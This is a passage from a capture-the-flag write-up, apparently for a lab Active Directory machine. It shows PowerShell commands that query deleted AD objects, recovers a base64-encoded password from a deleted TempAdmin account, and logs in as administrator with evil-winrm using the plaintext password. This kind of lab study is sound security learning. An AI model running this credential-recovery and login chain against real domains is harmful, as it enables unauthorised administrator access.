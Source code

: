 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921143728.png)

Reading about it I found that group was added in server 2008 and allow to recover deleted items.
We can query all deleted items with this command 

```
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

The last record is interesting, cause we know that TempAdmin had same password as normal admin

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921144025.png)

To query more information about TempAdmin use this command:

```
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921144154.png)

And we found password encrypted in base64 like the first we found via LDAP.
Quick decode via cyberchief

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921144258.png)

Connect via winrm as administrator

```
evil-winrm -i 10.10.10.182 -u administrator -p 'baCT3r1aN00dles'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921144401.png)

And now we can take root flag.